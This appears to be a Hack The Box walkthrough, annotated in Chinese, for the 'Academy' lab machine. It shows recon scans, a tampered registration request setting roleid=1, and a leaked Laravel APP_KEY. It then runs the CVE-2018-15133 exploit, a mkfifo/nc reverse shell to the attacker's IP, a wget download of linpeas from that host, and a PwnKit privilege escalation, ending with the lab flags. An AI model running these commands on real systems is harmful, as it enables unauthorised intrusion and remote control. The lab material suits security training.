

###### tags: `Hack the box` `HTB` `Easy` `Linux`

# Academy
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.26.142 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.26.142:22
Open 10.129.26.142:80
Open 10.129.26.142:33060

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/0BA3dU0ygKCvP7G3GklCeOqxb17vxMCsugN05RA9Fhj7AzkPiMLrrKRY656gBuscH23utAWAhRXzV1SyU37bbFzEbfaqYAlh1ggHEuluLgbf9QsYZe76zCx2SRPOzoI9Q40klVvuu9E92pNLe80dvUZj644EwhJTGw4KGxeOqeuo/nXnYfiNAbWvOe9Qp+djDbEvP5lHwIDMTAtgggoSC1chubC3jFC4hihuYjtitjUr4+5fROomhJAo/GEvdBj2CYNHIFEvmuvb32cgul5ENQS4fJXpcI7fbP9/+b/cfA9oRxG2k+k1M8mUld2h5mHEVBE5Z9WKS3cRYu97oVKnRRCoDY/55mZw6lngIdH4drpYwzCrZcCWgviXRfCeOwmZ8sucap6qN/nFYnPoF7fd+LGaQOhz9MkAZCTMmLqSiZGSistAIPzHtABH0VQDbo2TqJ+kGWr9/EamCcYBbVVPaFj/XQqujoEjLYW+igihwrPEQ7zxlleQHwg91oSVy38=
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAIMsz8qKL1UCyrPmpM5iTmoy3cOsk+4L7oFdcPjBXwAcUVvnti7nXHlNqMfgsapbGSIl7AWTOeXLZmw2J6JWvE=
|   256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBP1E2rWeTShvyJKxC5Brv1Do3OwvWIzlZHWVw/bD0R
80/tcp    open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
33060/tcp open  mysqlx? syn-ack
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.26.85    academy.htb
```

buster
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://academy.htb/FUZZ.php -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

login                   [Status: 200, Size: 2627, Words: 667, Lines: 142, Duration: 296ms]
register                [Status: 200, Size: 3003, Words: 801, Lines: 149, Duration: 294ms]
index                   [Status: 200, Size: 2117, Words: 890, Lines: 77, Duration: 2883ms]
admin                   [Status: 200, Size: 2633, Words: 668, Lines: 142, Duration: 293ms]
home                    [Status: 302, Size: 55034, Words: 4001, Lines: 1050, Duration: 4900ms]
config                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 292ms]
```

在`http://academy.htb/register.php`用burp卡住之後，把`roleid`設成`1`，username改成`test123`
```
POST /register.php HTTP/1.1

Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://academy.htb
Connection: keep-alive
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=89ht40ljh7qcit39jejmki9nb9
Upgrade-Insecure-Requests: 1


uid=test123&password=test&confirm=test&roleid=1
```

在`http://academy.htb/admin.php`登入後可以看到一個domain`dev-staging-01.academy.htb`



把`dev-staging-01.academy.htb`加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.26.85    dev-staging-01.academy.htb
```

前往`http://dev-staging-01.academy.htb/`可以搜尋`laravel`的漏洞[cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133)

```
Environment Variables
APP_NAME 	"Laravel"
APP_ENV 	"local"
APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
APP_DEBUG 	"true"
APP_URL 	"http://localhost"
LOG_CHANNEL 	"stack"
DB_CONNECTION 	"mysql"
DB_HOST 	"127.0.0.1"
DB_PORT 	"3306"
DB_DATABASE 	"homestead"
DB_USERNAME 	"homestead"
DB_PASSWORD 	"secret"
...
```

用漏洞，可成功
```
┌──(kali㉿kali)-[~/htb/exploit_laravel_cve-2018-15133]
└─$ pip3 install -r requirements.txt

┌──(kali㉿kali)-[~/htb/exploit_laravel_cve-2018-15133]
└─$ python3 pwn_laravel.py http://dev-staging-01.academy.htb/ "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=" -c id 

uid=33(www-data) gid=33(www-data) groups=33(www-data)

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

┌──(kali㉿kali)-[~/htb/exploit_laravel_cve-2018-15133]
└─$ python3 pwn_laravel.py http://dev-staging-01.academy.htb/ "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=" -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.54 4444 >/tmp/f"

$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@academy:/var/www/html/htb-academy-dev-01/public$
```

用`linpeas.sh`
```
www-data@academy:/tmp$ wget 10.10.14.54/linpeas.sh
www-data@academy:/tmp$ chmod +x linpeas.sh
www-data@academy:/tmp$ ./linpeas.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root之後，在/root得root.txt
```
www-data@academy:/tmp$ python3 CVE-2021-4034.py

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@academy:/root# cat root.txt
a758a94c319dd1a16b49fc9368fcc80d
```

在`/home/cry0l1t3`得user.txt
```
root@academy:/home/cry0l1t3# cat user.txt
0b6e15cbdfc83063694d50291c35c76e
```
